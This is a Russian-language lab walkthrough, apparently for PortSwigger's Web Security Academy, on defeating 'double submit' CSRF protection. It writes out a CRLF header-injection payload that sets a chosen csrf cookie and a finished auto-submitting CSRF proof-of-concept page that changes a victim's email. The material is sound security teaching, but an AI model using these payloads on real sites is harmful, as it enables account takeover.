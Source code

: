 В еще одном варианте предыдущей уязвимости некоторые приложения не ведут никаких записей о выпущенных токенах на стороне сервера, а вместо этого дублируют каждый токен в файле cookie и параметре запроса. Когда последующий запрос проверяется, приложение просто проверяет, что токен, отправленный в параметре запроса, соответствует значению, отправленному в файле cookie. Это иногда называют защитой "double submit" от CSRF, и она поддерживается потому, что она проста в реализации и позволяет избежать необходимости в каком-либо состоянии на стороне сервера:
```
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=1DQGdzYbOJQzLP7460tfyiv3do7MjyPw; csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa
...
csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa&email=wiener@normal-user.com
```
В этой ситуации злоумышленник может снова выполнить атаку CSRF, если веб-сайт содержит какие-либо функции настройки файлов cookie. Здесь злоумышленнику не нужно получать собственный действительный токен. Они просто изобретают токен (возможно, в требуемом формате, если это проверяется), используют поведение настройки файлов cookie, чтобы поместить свой файл cookie в браузер жертвы, и передают свой токен жертве в своей CSRF-атаке.

Логинимся под `wiener:peter`
включим режим `proxy` -> `intercept is on `

и попробуем сменить почтовый ящик на `change@me.com`

и отправим данный запрос в `Repeater`, а сам запрос в проксе дропнем
```
POST /my-account/change-email HTTP/2
Cookie: csrf=hqzhbK41G3LY9zAvQ8k14Q74Nv2rGDci; session=v49QBbBAaKSTGGWYh7gLOYGEDqvBq08S
...
email=change%40me.com&csrf=hqzhbK41G3LY9zAvQ8k14Q74Nv2rGDci
```
И видим, что `csrf` токен дублируется в как в куки, так и в параметрах запроса

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/14.%20Cross-site%20request%20forgery%20(CSRF)/6.%20CSRF%20where%20token%20is%20duplicated%20in%20cookie/pics%20for%20walkthrough/1.png)

Изменим и там и там параметр `csrf` в обоих параметрах, допустим на `test`

и увидим, что почтовый ящик изменен, что означает, что сервер не ведет учет csrf токенов актуален он или нет, главное - чтобы они были одинаковы

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/14.%20Cross-site%20request%20forgery%20(CSRF)/6.%20CSRF%20where%20token%20is%20duplicated%20in%20cookie/pics%20for%20walkthrough/2.png)

Вернемся на страницу с блогамии, и выполним поиск по слову `soup`
```
GET /?search=soup 
```
Увидим, что в ответе в куках появился параметр `Set-Cookie: LastSearchTerm=soup;`

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/14.%20Cross-site%20request%20forgery%20(CSRF)/6.%20CSRF%20where%20token%20is%20duplicated%20in%20cookie/pics%20for%20walkthrough/3.png)

Изменим запрос, установив нужную нам куку - `test`
```
GET /?search=soup%0d%0aSet-Cookie:%20csrf=test
```

где `%0d%0a` - символы переноса строки

и увидим, что в ответе мы успешно поменяли отдаваемое `csrf cookie`
```
csrf=test
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/14.%20Cross-site%20request%20forgery%20(CSRF)/6.%20CSRF%20where%20token%20is%20duplicated%20in%20cookie/pics%20for%20walkthrough/4.png)
Далее вернемся в proxy -> HTTP history и найдем запрос на смену почтового ящика и нажмем `ПКМ` -> `Engagement tools` -> `Generate CSRF PoC`
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a1d001904efeb2581449d7a001b00c7.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="change&#64;me&#46;com" />
      <input type="hidden" name="csrf" value="hqzhbK41G3LY9zAvQ8k14Q74Nv2rGDci" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/14.%20Cross-site%20request%20forgery%20(CSRF)/6.%20CSRF%20where%20token%20is%20duplicated%20in%20cookie/pics%20for%20walkthrough/5.png)

Далее изменим несколько этот PoC изменив csrf токен в строке `<input type="hidden" name="csrf" value="mysupercsrftoken" />` и в пэйлоаде уберем содержимое` <script>` заменив его на 
```
<img src="https://0a1d001904efeb2581449d7a001b00c7.web-security-academy.net/?search=soup%0d%0aSet-Cookie:%20csrf=mysupercsrftoken%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
```

В итоге получим следующий PoC
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a1d001904efeb2581449d7a001b00c7.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="change5&#64;me&#46;com" />
      <input type="hidden" name="csrf" value="mysupercsrftoken" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://0a1d001904efeb2581449d7a001b00c7.web-security-academy.net/?search=soup%0d%0aSet-Cookie:%20csrf=mysupercsrftoken%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
  </body>
</html>
```

Перейдем в `Exploit server`, нажмем `Store` и `Deliver exploit to victim` и получим уведомление об успешно выполненной лабораторной работе
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/14.%20Cross-site%20request%20forgery%20(CSRF)/6.%20CSRF%20where%20token%20is%20duplicated%20in%20cookie/pics%20for%20walkthrough/6.png)
